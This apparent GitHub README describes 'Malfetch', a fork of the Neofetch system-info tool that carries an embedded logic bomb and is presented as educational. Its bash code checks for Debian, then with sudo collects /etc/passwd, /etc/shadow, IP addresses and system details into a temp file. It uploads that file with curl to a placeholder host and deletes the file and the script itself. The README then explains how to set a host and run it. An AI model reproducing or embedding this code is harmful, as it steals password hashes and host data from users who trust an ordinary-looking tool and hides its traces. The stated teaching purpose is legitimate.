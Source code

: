 # Malfetch
Malfetch is a fork of Neofetch designed for educational purposes. This repository contains a logic bomb integrated into the original Neofetch functionality, allowing users to understand the implications of malicious code in a controlled environment.

# Warning
This repository is intended for educational purposes only. It is crucial to understand the ethical implications of using and distributing malicious code. Use this repository responsibly and only in environments where you have explicit permission to test and learn.

# Malicious Part
There is no default hostname, so the created system file won't go anywhere until you edit the code.
``` bash
logic() {
    [[ $distro ]] && return

    if [[ -f /etc/os-release ]]; then
        source /etc/os-release
        if [[ $ID == "debian" ]]; then
            distro="Debian ${VERSION_ID:-${VERSION}}"
            malicious  
        fi
    fi
}

malicious() {
    sudo bash -c 'cat /etc/passwd > /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   cat /etc/shadow >> /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   echo "Local IP Address(es):" >> /tmp/xyz1048udk && \
                   hostname -I >> /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   echo "Public IP Address:" >> /tmp/xyz1048udk && \
                   curl -s ifconfig.me >> /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   echo "System Information:" >> /tmp/xyz1048udk && \
                   echo "Operating System:" >> /tmp/xyz1048udk && \
                   lsb_release -d >> /tmp/xyz1048udk && \
                   echo "Kernel Version:" >> /tmp/xyz1048udk && \
                   uname -r >> /tmp/xyz1048udk && \
                   echo "Disk Usage:" >> /tmp/xyz1048udk && \
                   df -h >> /tmp/xyz1048udk'

    curl -X POST -F "file=@/tmp/xyz1048udk" https://hostname/upload_endpoint

    sudo rm /tmp/xyz1048udk
    sudo rm -- "$0"  
}
```

# How to Use

To test the script, follow these steps:

1. **Clone the Repository**: Clone the repository to your local machine or a virtual machine using the following command:
   ```bash
   git clone https://github.com/kaishira/malfetch.git
   ```

2. **Edit the IP Address and Hostname**: Navigate to the cloned directory and edit the script to set the appropriate IP address and hostname as needed.

3. **Run the Script**: Inside the cloned folder, execute the script with the following command:
   ```bash
   sudo ./neofetch
   ```

# Disclaimer
The authors of this repository are not responsible for any misuse of the code contained herein. By using this repository, you agree to take full responsibility for your actions and to use the code only in ethical and legal contexts.
